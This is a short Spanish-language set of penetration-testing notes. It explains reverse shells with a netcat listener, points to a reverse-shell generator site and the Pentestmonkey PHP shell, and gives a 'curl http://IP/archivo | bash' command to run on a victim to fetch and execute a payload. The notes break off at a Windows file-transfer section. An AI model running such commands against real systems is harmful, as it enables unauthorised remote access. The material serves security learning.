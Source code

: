 ```yaml
---
icon: '2'
---
```


# Conceptos Básicos de Hacking

## Uso de Netcat para entablar una Reverse Shell

La página **revshells.com** es una herramienta en línea que permite generar fácilmente comandos para establecer **Reverse Shells**. Solo debes ingresar la dirección IP de la máquina atacante y el puerto, y seleccionar el tipo de shell y el sistema operativo. También ofrece opciones avanzadas como diferentes tipos de listeners y codificación. Es útil para realizar pruebas de penetración o auditorías de seguridad.

Puedes acceder a la página aquí: [revshells.com](https://www.revshells.com/).

1. Poner el comando adecuado para la **Reverse Shell** en la máquina víctima.
2. &#x20;Nos ponemos en escucha a través del **puerto** de la Reverse Shell que hayamos puesto.

```bash
nc -lvnp <puerto>
```

### PHP Reverse Shell

Un sencillo shell reverso en PHP desarrollado por [Pentestmonkey](http://pentestmonkey.net).

Este es un shell reverso simple en PHP que puede utilizarse durante pruebas de penetración para obtener acceso a un servidor objetivo.

## Cómo Compartir Archivos Con Servidor Http Con Python + Reverse Shell

1. Crear un archivo que sea un **payload**.
2. Ejecutamos el comando en la máquina atacante a escuchar&#x20;

```bash
sudo nc -nlvp <puerto>
```

3. En la máquina víctima hacemos el siguiente comando

```bash
curl http://IP/archivo | bash
```

## Compartir Archivos por la Red en Máquinas Windows

Si no tenemos acceso a curl o a wget hay otra herramienta que es CertUtil.

1. Crear archivo.
2. En la máquina atacante poner este comando

```bash
python3 -m http.server 80
```
